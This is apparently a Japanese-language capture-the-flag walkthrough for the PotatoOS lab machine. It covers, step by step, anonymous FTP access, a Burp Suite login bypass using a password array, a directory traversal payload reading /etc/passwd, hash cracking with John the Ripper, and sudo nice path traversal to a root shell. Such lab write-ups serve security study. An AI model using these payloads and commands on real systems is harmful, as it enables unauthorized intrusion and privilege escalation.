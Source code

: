 ## 目的
- user.txtとroot.txtの中身を見る

## 準備
- PotatoOSの起動はヘッドレスモードでいい
## 実践 343~

### ポートスキャンまで同じ
- `sudo nmap -A -p- $IP`
  - -Aは-sV,-sC,-Oの３つのスクリプトを合わせたもの
  - 22,80,2112の3つのポートが空いているのがわかる 

### 2112ポートの攻略
  - ftpでファイルを取得
  - ftpコマンドはParrotOSにはデフォルトで入っていないので、一度ネットワークをNATにして、ftpコマンドをaptで得る。取得後はネットワークをローカルホストに戻す
  - `sudo apt update`, `sudo apt install ftp`
  - `ftp $IP ポート番号`
  - user:`anonymous`, password:` ` 入力後にプロンプトが返ってくる
  - lsコマンドでファイルがわかる
  - getコマンドでファイルを取得後にexitで抜ける
  - index.phpを見ると認証に欠陥があることがわかる 

### fileコマンドで危険なファイルかもしれないので中身を確認
  - file ファイル名
  - ソースの認証部分を読むとパスワード書いてあることがわかる

### gobuster
- 通常には見えない隠しサイトを探してくる 
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `dir`はつけないとエラーになる
  - サイトを見つけたいのでディレクトリを探すので`-x`はいらない
- `/admin`という興味深いディレクトリがある 

### Webブラウザで確認
  - `192.168.56.101/admin`
  - 確認したら閉じる

### BurpSuiteで認証
- BurpSuitはプロキシサーバの役割を持ちhttpリクエストを書き換える効果がある
- htmlのソースを見ると、postメソッドが使われているので、BurpSuitを使って送信を書き換える
  - intercept is on にすると、パケットを送信せずに止めておくモードになる 
- ターミナルで`burpsuite`と入力、またはOSのMenuからBurpSuiteを起動
- 全部デフォルトでOK 
- proxy -> intercept is off -> open browser 
- ブラウザを起動した状態で192.168.56.101/adminでサイトに移動したら
- `intercept on` にする
- userを`admin`とpasswordを`test`と入力してlogin
- HTTPリクエストが表示されるので、一番下を `password[]=test`と書き直す
- 一番左のForwardボタンを押す
- 成功すると、Admin areaサイトに切り替わる
- `Intercept is off`にするとマウスで操作できる
### BurpSuiteでディレクトリリバーサル
- ディレクトリリバーサルとはリンクのパスで一度ルートに移ってから、目的のファイルにアクセスすること
- Logsに移動する
- `intercept is on`にする
- どれでもいいが、log_03.txtにボタン押して、Get the logを押す
- BurpSuiteがhttpリクエストをキャプチャするので`file=log_03.txt`を以下のように書き直す。これはリクエストを利用して、ディレクトリリバーサルをしている
  - `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
- 表示をコピーする

### John the ripperで使うファイルを作る
- `cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
- シェルの使えるユーザを探す。ファイルを見るとwebadminがシェルを使えて、パスワードのハッシュ値があるのでそれを解析する
- `cat pass.txt | grep -P 'sh$' | grep webadmin > hash.txt`

### John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `sudo john hash.txt --wordlist=/usr/share/wordlists/john.lst`
    - `-w=/usr/~`でもOK
    - 過去に一度暗号を解読していると表示されないので以下のようにする
    - `sudo john hash.txt --show` 

### sshでリモートに接続
- `ssh webadmin@192.168.56.101`
- password `dragon`
- lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
- `cat user.txt | base64 -d`

### (おまけ)Linpeasを送って、実行してみる
- `sudo scp linpeas.sh webadmin@192.168.56.101:/tmp`
- `chmod +x linpeas.sh`
- `./linpeas.sh > /home/webadmin/linpeas.log`

### userのroot権限を調べる
- `sudo -l`
- niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できるので、このコマンドを使って/bin/bashを実行する。ルート権限での実行なので当然、頭にsudoをつける
- notesはルートディレクトリの直下にあるので、ディレクトリリバーサルを利用して/bin/bashを呼び出す
- `sudo /bin/nice /notes/../bin/bash` 

### root権限
  - `cd /root`
  - `ls`
  - `cat root.txt`　２つ目のflagを取得 
